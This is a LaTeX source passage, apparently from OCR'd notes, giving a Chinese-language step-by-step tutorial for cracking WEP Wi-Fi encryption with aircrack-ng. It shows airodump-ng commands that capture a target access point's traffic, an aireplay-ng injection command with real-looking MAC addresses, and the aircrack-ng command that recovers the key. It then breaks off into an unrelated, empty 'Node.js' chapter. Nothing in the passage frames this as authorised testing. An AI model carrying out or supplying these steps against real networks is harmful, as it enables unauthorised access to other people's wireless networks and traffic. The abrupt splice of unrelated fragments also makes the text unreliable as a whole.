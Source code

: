 \documentclass{book}
\begin{document}
（mon0 是启动监控模式后无线网的端口）
查看有哪些采用wep加密的AP在线，然后按 ctrl+c 中止，不要关闭终端。

\paragraph{抓包}
打开另一个终端，输入：

\begin{lstlisting}[language=Bash]
sudo airodump-ng --channel 6 --bssid AP’s MAC -w wep mon0

sudo airodump-ng --bssid 28:2C:B2:E4:F5:5A -c 13 -w 619 --ignore-negative-one mon0
\end{lstlisting}

(-c后面跟着的6是要破解的AP工作频道，–bissid后面跟着的AP’sMAC是要欲破解AP的MAC地址，
-w后面跟着wep的是抓下来的数据包DATA保存的文件名，具体情况根据步骤2里面的在线AP更改频道和MAC地址，
DATA保存的文件名可随便命名）

本机Mac：00:25:d3:9a:b6:01

路由Mac：C0:61:18:9A:76:D2

\paragraph{与AP建立虚拟连接}
再打开一个新终端，输入：

\begin{lstlisting}[language=Bash]
aireplay-ng -2 -F -p 0841 -c ff:ff:ff:ff:ff:ff -b C0:61:18:9A:76:D2 -h 00:25:d3:9a:b6:01 mon0
\end{lstlisting}


（-h后面跟着的My MAC是自己的无线网卡的MAC地址，即ifconfig命令下wlan0对应的mac地址)

\paragraph{解密}
收集有15000个以上的DATA之后，另开一个终端，切换到aircrack-ng-1.1目录，执行以下命令
sudo aircrack-ng wep*.cap
进行解密
（如果没算出来的话，继续等，aircrack-ng 会在DATA每增加多15000个之后就自动再运行，
直到算出密码为至，注意此处文件的名字要与步骤3里面设置的名字一样，且*号是必需的）


\chapter{Node.js}

\clearpage
\mbox{}         
\clearpage

\subsection{Introduce}
\end{document}
